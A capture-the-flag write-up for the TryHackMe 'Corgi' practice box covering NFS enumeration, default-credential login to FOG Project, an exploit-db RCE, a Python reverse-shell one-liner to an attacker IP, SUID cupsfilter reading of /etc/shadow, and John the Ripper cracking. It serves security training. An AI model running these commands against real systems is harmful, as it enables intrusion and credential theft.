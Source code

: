 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any vulnerable box is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](Images/nmap_1.png)
![nmap scan pt2](Images/nmap_2.png)

## NFS
From this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.
![showmount](Images/showmount.png)
looks like there are 2 shares we can mount, lets use mount one of them and have a look around
![mount](Images/mount.png)

## FOG Project
After looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'
![FOG documentation](Images/FOG_1.png)
And going to `<TARGET-IP>/fog` takes us to a login page
![FOG login](Images/FOG_2.png)
Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.
![FOG default creds](/Images/FOG_3.png)
Lucky for us these default credentials worked and we are now logged in to the FOG dashboard
![FOG dashboard](Images/FOG_4.png)

## RCE Exploit
Now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.
![search on exploitdb](Images/exploit_1.png)
Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811
![exploit contents](Images/exploit_2.png)
Lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.
![before file upload](Images/exploit_3.png)
![after file upload](Images/exploit_4.png)
Running the hostname command to test if file upload worked
![testing RCE](Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
Now that we have RCE lets get our reverse shell up and running
`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](Images/rev_shell_1.png)
And stabilise the shell
![stabilising reverse shell](Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![available binaries](Images/binaries.png)
After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](Images/cupsfilter.png)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](Images/passwd_1.png)
![reading the /etc/passwd file pt2](Images/passwd_2.png)
`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](Images/shadow_1.png)
![reading the /etc/shadow file pt2](Images/shadow_2.png)
Lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt`
![cracking the hashes](Images/cracked.png)

So now we have a login, lets `su` into the new user and see what permissions they have.sudo 
![checking sudo -l](Images/sudo.png)

It looks like they can run any command, lets try to get into the root account and find the user and root hashes

![sudo su and user hash](Images/usr_hash.png)
![root hash](Images/root_hash.png)